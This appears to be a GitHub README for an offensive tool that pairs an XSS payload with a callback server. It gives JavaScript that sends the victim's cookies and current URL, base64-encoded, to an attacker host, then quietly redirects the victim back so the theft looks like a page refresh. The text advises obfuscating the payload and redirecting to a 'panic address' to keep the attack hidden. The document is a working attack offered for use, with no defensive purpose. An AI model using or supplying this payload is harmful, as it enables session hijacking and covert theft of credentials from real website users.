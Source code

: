 ## Description

This repo contains an example of a CORS callback server and an XSS payload that, once executed, will change the current window location of the victim to your callback address, which returns a **301 Moved Permanently** response sending the victim back to its referer, although this time with a token in the URL anchor, preventing the XSS payload from reactivating.

This enables you to sniff sensitive data via URL parameters when the victim is sent to your callback address.

If the victim did not send a Referer header, you can include the referer address in a URL parameter. If no referer is provided, the victim will be redirected to a panic address of your choice, in an attempt to keep the attack hidden.

When the attack is successful, the victim experienced what seemed like a page refresh at most.

## Usage

Use the following code in your XSS payload. Be sure to change the address to that of your callback server, and change the token at the very least. The more you obfuscate this code, the more likely your attack will succeed. 

```javascript
const token = "w3lRZ87e";
if (location.hash != token) self.location = "https://mycallbackserver.net/callback.php" + 
  "?referer=" + encodeURIComponent( btoa(self.location.href) ) + 
  "&data=" + encodeURIComponent( btoa(document.cookie) ) + 
  "&token=" + encodeURIComponent( btoa(token) );
```

<sup>If you choose not to include a referer in the URL parameters, the callback server defaults to the **`Referer`** header of the request.<br>If neither a referer parameter or Referer header is present, the victim is redirected to the panic address.</sup>
